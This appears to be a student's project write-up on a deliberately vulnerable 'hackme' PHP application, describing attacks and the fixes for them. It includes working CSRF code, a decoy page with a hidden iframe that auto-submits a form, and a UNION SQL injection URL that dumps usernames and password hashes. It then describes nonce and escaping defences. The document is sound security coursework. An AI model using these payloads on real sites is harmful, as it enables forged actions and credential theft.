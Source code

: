 # Project Writeup (Part 2)

1. The hackme application is vulnerable to arbitrary POST requests made to `post.php`. If an user submits a POST request with the fields `title`, `message`, and `post_submit` the application will create a new post with the content of the POST. I exploit this vulnerability to post a message without a logged in user realizing what happened. 

 Typically JavaScript is required to execute actions on the web, especially if you don't want the user to know what happened. However modern browsers have CSRF protections built in and don't allow JavaScript to submit POST requests to other domains. But, I can still submit a form using the HTML form element that has its action set to the URL of `post.php`. I don't want the user to realize what happened, so I submit the form in a hidden iframe that is loaded when the user loads the attack page. 

 Two files are required for this attack, the attack page and the hidden iframe. Both are included below.

 ```
 hackme-csrf.html
 <!doctype html>
	<html lang="en">
	<head>
		<title>You win!</title>
	</head>
	<body>
		<h1>You win!</h1>
		<p>That's it, there's nothing else.</p>
		<iframe src="hidden-csrf.html" style="display:none;"></iframe>
	</body>
</html>
```

 ```
 hidden-csrf.html
 <form method="POST" action="http://10.121.20.103/hackme/post.php">
        <input type="hidden" name="title" value="You won!">    
        <input type="hidden" name="message" value="You have been selected for a free flying dragon ride.">
        <input type="hidden" name="post_submit" value="true">
        <button type="submit">Claim your prize!</button>       
 </form> 
        
 <script>                                                       
        //Onload, submit the form                              
        document.querySelector("form").submit();               
 </script>
 ```

 I implemented a nonce system in order to close this vulnerability. The application generates a random hash and stores it in the user's session. This hash is then output on the post form as a hidden value. When the user submits the page normally, they submit the hash and the system checks that it matches the originally generated hash. Every time the user attempts to verify the hash, a new one is generated thus preventing short term replay attacks (although it might be possible to generate the same hash twice in a row, the likelihood of this is extremely low). A failure to validate prevents the form from submitting and displays an error message. Attackers have no way of gaining access to the nonce hash unless they are able to hijack the user's session; in that case a nonce wouldn't stop the attacker from posting as the user. The user's session is protected by a unique session ID and the use of HTTPS. 


2. The original hackme application is extremely vulnerable to most kinds of SQL injection attacks. Input is not sanitized and attackers can input arbitrary SQL code. I can take advantage of this to force the application to display all users and their hashed passwords. This attack is possible because `show.php` interprets user input from the GET URL to display a post based upon a given ID. The original command expects and ID: `SELECT * FROM threads WHERE id = '".$_GET[pid]."'`

 But, an attacker can manipulate the URL to change the command: `/hackme/show.php?pid=' UNION DISTINCT SELECT null, pass as username, username, null, null FROM users WHERE 1=1 OR username='`. 

 A union operation is performed which grabs the `username` and `pass` fields from the `users` table. Null values are used because you can only perform unions between tables that have an identical number of columns. I alias `pass` as `username` so that the application logic will display its value in the username slot on the `show.php` page.

 In order to fix this, I no longer use direct `mysql_query` commands. Instead I pass formatted string along with an array of values to the `pass` method of `SiteAuthentication`. This method loops through all the values in the array and passes them to `mysqli_real_escape_string()` which returns an escaped version of the value. Finally these values are replaced in the formatted string and executed. A more robust solution in the real world would use PDO or mysqli prepared statements which prevents changing the SQL command once the string has been compiled. However for this assignment, my solution is effective at stopping the above attack and others.
